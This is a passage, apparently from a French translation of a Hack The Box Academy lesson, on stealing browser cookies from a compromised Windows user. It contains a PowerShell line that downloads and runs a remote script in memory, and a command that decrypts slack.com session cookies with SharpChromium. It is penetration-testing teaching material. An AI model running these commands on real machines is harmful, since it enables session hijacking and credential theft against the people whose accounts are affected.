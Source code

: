 ![texte](https://academy.hackthebox.com/storage/modules/67/search-creds-slack.jpg)

##### Extraction de cookies à partir de navigateurs basés sur Chromium

Le navigateur à base de chrome stocke également ses informations de cookies dans une base de données SQLite. La seule différence est que la valeur du cookie est chiffrée avec l'[API de protection des données (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection) . `DPAPI` est couramment utilisé pour chiffrer des données à l'aide d'informations provenant du compte d'utilisateur ou de l'ordinateur actuel.

Pour obtenir la valeur du cookie, nous devrons effectuer une routine de déchiffrement à partir de la session de l'utilisateur que nous avons compromis. Heureusement, un outil [SharpChromium](https://github.com/djhohnstein/SharpChromium) fait ce dont nous avons besoin. Il se connecte à la base de données de cookies SQLite de l'utilisateur actuel, décrypte la valeur du cookie et présente le résultat au format JSON.

Utilisons [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), un script PowerShell créé par [S3cur3Th1sSh1t](https://twitter.com/ ShitSecure) qui utilise la réflexion pour charger SharpChromium.

#### Script PowerShell - Invoke-SharpChromium

Script PowerShell - Invoke-SharpChromium

```
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Début de l'extraction de Google Chrome.

[X] Exception : Impossible de trouver le fichier "C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies".

    à System.IO.__Error.WinIOError (Int32 errorCode, chaîne peut-êtreFullPath)
    à System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
    à Utils.FileUtils.CreateTempDuplicateFile(String filePath)
    à SharpChromium.ChromiumCredentialManager.GetCookies()
    à SharpChromium.Program.extract data(String path, String browser)
[*] Extraction Google Chrome terminée.

[*] Fait.

```

Une erreur s'est produite, car le chemin du fichier de cookie contenant la base de données est codé en dur dans [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), et la version actuelle de Chrome utilise un endroit différent.

Nous pouvons modifier le code de `SharpChromium` ou copier le fichier cookie à l'endroit où SharpChromium recherche.
